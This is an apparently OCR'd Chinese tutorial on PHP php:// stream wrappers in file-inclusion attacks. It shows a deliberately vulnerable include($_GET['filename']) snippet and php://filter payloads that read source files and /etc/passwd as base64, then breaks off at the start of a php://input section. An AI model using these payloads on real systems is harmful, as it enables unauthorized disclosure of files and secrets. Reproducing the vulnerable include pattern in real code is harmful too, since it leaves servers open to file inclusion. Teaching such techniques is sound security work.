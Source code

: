 ## php://伪协议

php://伪协议是PHP提供的一些输入输出流访问功能，允许访问PHP的输入输出流，标准输入输出和错误描述符,内存中、磁盘备份的临时文件流，以及可以操作其他读取和写入文件资源的过滤器。

### 1、php://filter

php://filter 是元封装器，设计用于数据流打开时的筛选过滤应用,对本地磁盘文件进行读写。

漏洞利用条件:

利用php:filter读本地磁盘文件时不需要开启allow_url_fopen和allow_url_include

用法:

(1):filename=php://filter/read=convert.base64-encode/resource=index.php
(2):filename=php://filter/convert.base64-encode/resource=index.php

参数:

Resource=<要过滤的数据流> 必需
read=<读链的筛选列表>     可选
write=<写链的筛选器列表> 可选

漏洞代码:

```
 <?php
     $filename  = $_GET['filename'];
       include($filename);
       ？>
       Pyload:

       http://127.0.0.1/test.php?filename=php://filter/read=convert.base64-encode/resource=test.php
```

   利用php://filter获取了test.php文件的Base64编码

要求 PHP 对流进行两次 base64 编码：

```
filename=php://filter/convert.base64-encode|convert.base64-encode/resource=/etc/passwd
```


- `string.upper`，将字符串转换为大写
- `string.lower`，将字符串转换为小写
- `string.rot13`，它执行一些 BC 加密
- `convert.iconv.X.Y`，将字符集从 转换`X`为`Y`
### 2、php://input

php://input可以访问请求的原始数据的只读流，即可以直接读取POST上没有经过解析的原始数据，但是使用enctype=”multipart/form-data”的时候php://input是无效的。

(1)：读取POST数据

   利用条件:

   示例代码:
